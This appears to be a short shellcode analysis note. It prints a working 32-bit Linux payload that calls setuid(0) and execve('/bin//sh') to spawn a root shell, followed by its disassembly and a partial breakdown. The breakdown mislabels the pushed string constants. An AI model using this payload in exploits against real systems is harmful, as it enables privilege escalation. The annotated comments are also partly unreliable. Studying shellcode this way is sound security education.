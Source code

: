 ## Shellcode analysis case 1

----

#### Shellcode - Spawns a root shell on Linux : [source](https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html) 
```
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52
\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
```
```
Dissassembly-
0:  31 c0                   xor    eax,eax
2:  89 c3                   mov    ebx,eax
4:  b0 17                   mov    al,0x17
6:  cd 80                   int    0x80
8:  31 d2                   xor    edx,edx
a:  52                      push   edx
b:  68 6e 2f 73 68          push   0x68732f6e
10: 68 2f 2f 62 69          push   0x69622f2f
15: 89 e3                   mov    ebx,esp
17: 52                      push   edx
18: 53                      push   ebx
19: 89 e1                   mov    ecx,esp
1b: 8d 42 0b                lea    eax,[edx+0xb]
1e: cd 80                   int    0x80 
```
Breakdown-

```x86assembly
xor    eax,eax ; zero's out the eax register
mov    ebx,eax
mov    al,0x17
int    0x80

;Pushed the text "\bin\sh" onto the stack which spawns the sh shell

push   0x68732f6e - little endian hex code "\sh"
push   0x69622f2f - little endian hex code "\bin"
```
